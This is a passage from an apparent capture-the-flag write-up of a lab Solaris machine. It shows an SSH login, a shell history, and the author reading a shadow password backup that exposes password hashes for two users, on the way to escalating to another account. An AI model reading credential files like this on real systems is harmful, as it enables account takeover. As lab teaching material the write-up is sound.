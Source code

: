 **The Reason I used crackmapexec and not netexec is because it was throwing an No Module Found For Impacket Error** 

```
# ssh sunny@10.10.10.76 -p 22022                                                 
(sunny@10.10.10.76) Password: 
Last login: Thu Oct  3 08:03:10 2024 from 10.10.14.8
Oracle Solaris 11.4.42.111.0                  Assembled December 2021
sunny@sunday:~$ id
uid=101(sunny) gid=10(staff)
sunny@sunday:~$ 
```

###### `Elavate to Sammy's Account`
Since I didn't  find a flag on `Sunny's` account, i will need a shell for the `sammy's` account.  Upon just typing the `history` command in `Sunny's` Shell, I notice that there was a shadow backup present.
```
sunny@sunday:~$ history
    1  su -
    2  su -
    3  cat /etc/resolv.conf 
    4  su -
    5  ps auxwww|grep overwrite
    6  su -
    7  sudo -l
    8  sudo /root/troll
    9  ls /backup
   10  ls -l /backup
   11  cat /backup/shadow.backup
   12  sudo /root/troll
   13  sudo /root/troll
   14  su -
   15  sudo -l
   16  sudo /root/troll
   17  ps auxwww
   18  ps auxwww
   19  ps auxwww
   20  top
   21  top
   22  top
   23  ps auxwww|grep overwrite
   24  su -
```

Catting the Shadowing Backup
```
sunny@sunday:~$ cat /backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

